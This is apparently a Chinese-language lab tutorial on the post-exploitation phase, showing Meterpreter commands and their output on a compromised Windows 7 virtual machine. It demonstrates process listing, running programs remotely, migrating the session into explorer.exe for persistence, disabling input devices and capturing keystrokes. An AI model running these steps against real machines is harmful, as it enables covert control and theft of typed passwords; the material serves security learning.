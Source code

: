 # 后渗透阶段

> 查看系统版本信息
meterpreter > sysinfo
Computer        : IE10WIN7
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x86/windows

> 查看系统空闲时间
meterpreter > idletime
User has been idle for: 5 mins 39 secs

> 获取UUID
meterpreter > uuid
[+] UUID: 39ee88007c1008bd/x86=1/windows=1/2019-04-18T06:19:08Z

> 获取进程ID
meterpreter > getpid
Current pid: 3780

> 展示进程信息
meterpreter > ps

Process List
============

 PID   PPID  Name                    Arch  Session  User             Path
 ---   ----  ----                    ----  -------  ----             ----
 0     0     [System Process]                                        
 4     0     System                                                  
 120   460   wlms.exe                                                
 276   4     smss.exe                                                
 340   460   vmtoolsd.exe                                            
 356   348   csrss.exe                                               
 408   348   wininit.exe                                             
 420   400   csrss.exe                                               
 460   408   services.exe                                            
 476   408   lsass.exe                                               
 484   408   lsm.exe                                                 
 552   400   winlogon.exe                                            
 648   460   svchost.exe                                             
 752   460   vmacthlp.exe                                            
 768   460   cygrunsrv.exe                                           
 784   460   svchost.exe                                             
 836   460   svchost.exe                                             
 952   460   svchost.exe                                             
 992   460   svchost.exe                                             
 1016  460   svchost.exe                                             
 1252  460   svchost.exe                                             
 1284  460   VGAuthService.exe                                       
 1364  460   spoolsv.exe                                             
 1400  460   svchost.exe                                             
 1424  460   taskhost.exe            x86   1        IE10WIN7\IEUser  C:\Windows\system32\taskhost.exe
 1580  460   vmicsvc.exe                                             
 1600  460   vmicsvc.exe                                             
 1636  460   vmicsvc.exe                                             
 1660  460   vmicsvc.exe                                             
 1692  460   vmicsvc.exe                                             
 1720  460   kisaassvr.exe                                           
 1764  460   AtHost.exe                                              
 1784  460   OfficeClickToRun.exe                                    
 1932  1720  IpcServer.exe           x86   1                         
 2028  460   svchost.exe                                             
 2080  1764  UploadExe.exe                                           
 2444  356   conhost.exe                                             
 2480  2400  sshd.exe                                                
 2520  460   sppsvc.exe                                              
 2624  460   svchost.exe                                             
 2680  648   WmiPrvSE.exe                                            
 2916  460   dllhost.exe                                             
 2960  460   SearchIndexer.exe                                       
 2972  2404  wpscloudsvr.exe         x86   1        IE10WIN7\IEUser  C:\Users\IEUser\AppData\Local\Kingsoft\WPS Office\10.1.0.7698\office6\wpscloudsvr.exe
 2988  648   WmiPrvSE.exe                                            
 3196  460   msdtc.exe                                               
 3284  2436  GoogleCrashHandler.exe                                  
 3396  1720  AMediumManager.exe      x86   1                         
 3564  952   dwm.exe                 x86   1        IE10WIN7\IEUser  C:\Windows\system32\Dwm.exe
 3588  3556  explorer.exe            x86   1        IE10WIN7\IEUser  C:\Windows\Explorer.EXE
 3736  3588  vmtoolsd.exe            x86   1        IE10WIN7\IEUser  C:\Program Files\VMware\VMware Tools\vmtoolsd.exe
 3780  3588  evilrar.exe             x86   1        IE10WIN7\IEUser  C:\Users\IEUser\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\evilrar.exe
 3788  1720  AtTray.exe              x86   1                         
 3852  1016  wuauclt.exe             x86   1        IE10WIN7\IEUser  C:\Windows\system32\wuauclt.exe
 3904  3788  kDocSecurity.exe        x86   1                         
 3920  3788  AtUsbScan.exe           x86   1                         
 4968  460   svchost.exe                                             
 5356  2972  wpscenter.exe           x86   1        IE10WIN7\IEUser  C:\Users\IEUser\AppData\Local\Kingsoft\WPS Office\10.1.0.7698\office6\wpscenter.exe

> 禁用鼠标键盘

 uictl [enable/disable] [keyboard/mouse/all]

> 在目标系统执行文件

```sh
meterpreter > execute 
Usage: execute -f file [options]

Executes a command on the remote machine.

OPTIONS:

    -H        Create the process hidden from view.
    -a <opt>  The arguments to pass to the command.
    -c        Channelized I/O (required for interaction).
    -d <opt>  The 'dummy' executable to launch when using -m.
    -f <opt>  The executable command to run.
    -h        Help menu.
    -i        Interact with the process after creating it.
    -k        Execute process on the meterpreters current desktop
    -m        Execute from memory.
    -s <opt>  Execute process in a given session as the session user
    -t        Execute process with currently impersonated thread toke
```

启动计算器和文件浏览器
meterpreter > execute -f calc.exe
Process 5404 created.

meterpreter > execute -f explorer.exe
Process 5764 created.

> Meterpreter会话移植到指定pid值进程中,以保持持久化

meterpreter > migrate 3588
[*] Migrating from 3780 to 3588...
[*] Migration completed successfully.

## 文件系统基本命令
ls -S 关键字符串 用于快速搜索文件

查看文件内容
meterpreter > cat system.ini
; for 16-bit app support
[386Enh]
woafont=dosapp.fon
EGA80WOA.FON=EGA80WOA.FON
EGA40WOA.FON=EGA40WOA.FON
CGA80WOA.FON=CGA80WOA.FON
CGA40WOA.FON=CGA40WOA.FON

[drivers]
wave=mmdrv.dll
timer=timer.drv

[mci]


## 持久化和键盘窃听

```sh
meterpreter > ls -S exe
Listing: c:\Windows
===================

Mode              Size     Type  Last modified              Name
----              ----     ----  -------------              ----
100777/rwxrwxrwx  497152   fil   2017-06-02 00:57:49 -0700  HelpPane.exe
100777/rwxrwxrwx  65024    fil   2010-11-20 04:16:55 -0800  bfsvc.exe
100777/rwxrwxrwx  2616320  fil   2011-02-24 21:30:54 -0800  explorer.exe
100777/rwxrwxrwx  13824    fil   2009-07-13 18:14:20 -0700  fveupdate.exe
100777/rwxrwxrwx  15360    fil   2009-07-13 18:14:21 -0700  hh.exe
100777/rwxrwxrwx  179712   fil   2015-07-09 10:42:27 -0700  notepad.exe
100777/rwxrwxrwx  398336   fil   2009-07-13 18:14:30 -0700  regedit.exe
100777/rwxrwxrwx  49680    fil   2009-06-10 14:41:17 -0700  twunk_16.exe
100777/rwxrwxrwx  31232    fil   2009-07-13 18:14:42 -0700  twunk_32.exe
100777/rwxrwxrwx  256192   fil   2009-06-10 14:42:20 -0700  winhelp.exe
100777/rwxrwxrwx  9728     fil   2009-07-13 18:14:45 -0700  winhlp32.exe
100777/rwxrwxrwx  9216     fil   2009-07-13 18:14:49 -0700  write.exe

meterpreter > execute -f notepad.exe
Process 5920 created.

> Meterpreter会话移植到指定pid值进程中,以保持持久化

meterpreter > migrate 3588
[*] Migrating from 3780 to 3588...
[*] Migration completed successfully.

## 捕获键盘输入数据
keyscan_start

## 打印键盘输入的数据
meterpreter > keyscan_dump
Dumping captured keystrokes...
<CR>
<CR>
<Shift>Hacv<^H>k me<Shift><Right Shift>?<Right Shift>?<CR>
<Shift>HHH <CR>
too naive<^S><^S>
```

参考:

[后渗透阶段](https://www.freebuf.com/sectool/154752.html)

